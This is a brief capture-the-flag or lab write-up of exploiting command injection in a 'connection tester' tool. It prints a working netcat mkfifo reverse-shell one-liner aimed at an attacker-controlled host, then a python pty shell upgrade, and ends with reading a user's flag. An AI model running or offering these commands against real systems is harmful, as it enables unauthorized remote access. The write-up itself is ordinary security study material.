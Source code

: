 #### I attempted to type the usual netcat one liner reverse shell syntax but didn't work. I then tried "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [kali IP] [Listener Port] >/tmp/f" found in "pentestmonkey.net" but had to modify it to the following in order to get it to work: "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.53.200 80 >/tmp/f" (the modification I added was the "-f" after command "rm") 

#### Ran the syntax above on the connection tester tool and had a listener listening on my kali machine and received a reverse shell 

![](../Pasted%20Images/Pasted%20image%2020220504005151.png)

#### I then upgraded to a fully interactive TTY shell using syntax: python3 -c 'import pty; pty.spawn("/bin/bash")'

#### Navigated to "home" directory and found user "dylan" and cat'd the users flag: 

![](../Pasted%20Images/Pasted%20image%2020220504005226.png)

#Exploit #Command_Injection 